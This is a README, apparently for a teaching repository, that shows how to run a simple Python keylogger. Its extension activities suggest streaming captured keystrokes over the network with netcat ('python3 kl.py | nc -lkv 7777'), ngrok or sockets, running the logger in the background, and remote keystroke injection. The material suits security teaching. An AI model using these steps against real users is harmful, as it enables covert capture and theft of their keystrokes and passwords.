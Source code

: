 # simple keylogger

Keyloggers are simple to build with the 'keyboard' module!

## Running from fun_with_cybersec folder
* First, follow instructions [here](https://github.com/FrozenBurrito/fun_with_cybersec/blob/main/README.md) to setup virtual environment.
* Running on Linux
```
source .venv/bin/activate
python simple_keylogger.py
```
* Running on Windows
```
scripts\activate.bat
python simple_keylogger.py
```
<img src="kl_screenshot.png" width="50%" height="50%" />

## Extension Activities
* Modify simple_keylogger.py to:
  * Save the output to file.
    * See 'use as standalone module' in github repo linked below.
  * Stream output remotely or schedule data dumps 
    * Try using sockets or ngrok+flask
* Command line extension activities:
 * Stream output with netcat:
	  * Server, Keylogger (ex: 10.2.0.5):
			* python3 kl.py | nc -lkv 7777.  
			* or, python -m keyboard | nc -lkv 7777
		* Client (ex: 10.2.0.6):  
		  * nc -zv 10.2.0.5 7777
			* or, use firefox.
  * Run in background using '&' and pipe output to file.
* Remote keyboard injection (possible with keyboard module)

## Helpful Libraries and Links

* [keyboard module](https://github.com/boppreh/keyboard)
* [netcat man page](https://man7.org/linux/man-pages/man1/ncat.1.html)
* [ncat by nmap](https://nmap.org/ncat/guide/index.html
